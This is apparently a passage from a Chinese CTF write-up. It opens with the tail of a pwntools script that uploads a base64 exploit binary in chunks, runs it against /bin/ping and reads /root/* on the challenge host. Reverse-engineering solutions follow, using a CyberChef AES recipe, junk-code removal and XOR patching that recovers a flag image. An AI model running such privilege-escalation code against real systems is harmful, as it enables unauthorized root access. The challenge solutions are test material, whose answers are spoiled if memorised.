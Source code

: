 ```py
for i in range(0, len(exp), 0x200):
    p.sendlineafter(b"$ ", b"echo -n \"" + exp[i:i + 0x200] + b"\" >> /tmp/b64_exp")
    count += 1
    log.info(f"count: {count} / {len(exp) // 0x200}")

p.sendlineafter(b"$ ", b"cat /tmp/b64_exp | base64 -d > /tmp/exploit")
p.sendlineafter(b"$ ", b"chmod +x /tmp/exploit")
p.sendlineafter(b"$ ", b"/tmp/exploit /bin/ping")
p.sendlineafter(b"$ ", b"cat /root/*")

p.interactive()
```
## Re
### 签到
CyberChef_v10.5.2.html#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Latin1','string':'yNgIvYJf/J4BRJOa'%7D,%7B'option':'Hex','string':''%7D,'ECB/NoPadding','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=anZqZVRRVkdjREdQZ0ZlQytFOTBQejZ3WXpqY0JLNDlZRHgyVys2WUZUamsvd21hN09hNUozTzJuczhPcHRieA
### flower
手动nop一下几个花指令：
```c
  sub_5413E3(std::cin, v15);
  v14 = "!@#$%^&*()ABCDEFGHIJKLMNOPQRSTUVWXYZ<>abcdefghijklmnopqrstuvwxyz";
  sub_541159(v13, (int)"rTrO{T%C$EJVzyoCo*s_zxWByRzOng%gvC[cvBw_$Dw+AiC_syG[");
  v12 = 0;
  sub_541113(v13, v12);
  qmemcpy(v11, "abcdefghijklmnopqrstuvwxyz!@#$%^&*()ABCDEFGHIJKLMNOPQRSTUVWXYZ<>", 64);
  sub_54143D(v10, v11, 97);
  sub_541159(v9, (int)"zUsD$T+M%UKu{xWBySBN%ykQ{xODySoG&isWyRzN%yk_sDNN%TwP$URa");
```
两组密文-码表 
一个密文-1得到招新赛flag
一个码表-1得到ctfshowflag
### 破解飞机大战
交叉引用搜一下得分函数的引用，找到：
```c
  if ( get_score() == 10000 )
  {
    scanf("%d", v7);
    HIBYTE(v8) = v7[0];
    for ( i = 0; i <= 92439; ++i )
      loc_419060[i] ^= HIBYTE(v8);
```
前面有点CC，试了一下开头不是push ebp，那异或CC试试，发现很有规律地往栈上写数据，但是结尾也不是正常结尾  
```py
for i in range(92439):
    ida_bytes.patch_byte(0x419060 + i, ida_bytes.get_byte(addr) ^ 0xcc)
```
不过在结尾看到了FFD9，去开头果然看到了FFD8，那按U之后y改数据类型然后shift+E之后正则再提取一下  
C606(..)4640  
得到的东西就是flag的图片了
### 没时间好好爱你，所以选择单身 (不会)
```
#########
#@#######
#***##**#
#*#*###*#
#*#**####
#**#*####
##*#*####
```
